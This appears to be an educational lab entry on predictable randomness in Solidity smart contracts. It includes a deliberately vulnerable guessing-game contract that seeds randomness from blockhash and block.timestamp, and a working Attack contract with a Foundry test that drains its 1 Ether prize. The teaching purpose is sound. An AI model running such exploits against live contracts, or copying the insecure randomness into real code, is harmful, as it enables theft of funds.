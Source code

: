 # Randomness  
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**Name:** Predictable Randomness Vulnerability

**Description:**  
Use of global variables like block hash, block number,
block timestamp and other fields is insecure, miner and attacker can control it.

**Scenario:**  
GuessTheRandomNumber is a game where you win 1 Ether if you can guess the pseudo random number generated from block hash and timestamp.

At first glance, it seems impossible to guess the correct number.But let's see how easy it is win.

1. Alice deploys GuessTheRandomNumber with 1 Ether
2. Eve deploys Attack
3. Eve calls Attack.attack() and wins 1 Ether

**What happened?**  
Attack computed the correct answer by simply copying the code that computes the random number.

**Mitigation:**  
Don't use blockhash and block.timestamp as source of randomness

**REF:**

https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber Contract:**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```
****How to Test:****

forge test --contracts src/test/**Randomness.sol**-vvvv  
```
// Function to test an attack on a contract using predictable randomness.
function testRandomness() public {
    // Assigns address values to 'alice' and 'eve' from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice is given 1 ether.
    vm.deal(address(alice), 1 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // An instance of GuessTheRandomNumberContract is created with a balance of 1 ether.
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // A prank on Eve is started.
    vm.startPrank(eve);

    // An instance of the Attack contract is created.
    AttackerContract = new Attack();

    // The current balance of the AttackerContract is logged.
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // The Attack contract attempts to guess the random number of the GuessTheRandomNumberContract.
    AttackerContract.attack(GuessTheRandomNumberContract);

    // The balance of the AttackerContract is logged again, showing if the attack was successful.
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // Logs a message indicating the exploit is complete.
    console.log("Exploit completed");
}


// The Attack contract that attempts to guess the random number of the GuessTheRandomNumberContract.
contract Attack {
    // A function that allows this contract to receive Ether.
    receive() external payable {}

    // The attack function that calculates the pseudo-random number using the same logic as the GuessTheRandomNumberContract 
    // and uses that to guess the number.
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // Calls the guess function of GuessTheRandomNumber contract with the guessed answer.
        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check the balance of this contract.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
``` 
Red box: guessed the answer and win the game.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fda3d6929-9bc8-478e-a027-cff9c2a65c0d%2FUntitled.png?table=block&id=216b1af8-21a5-4e09-a63e-e4523705c968&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
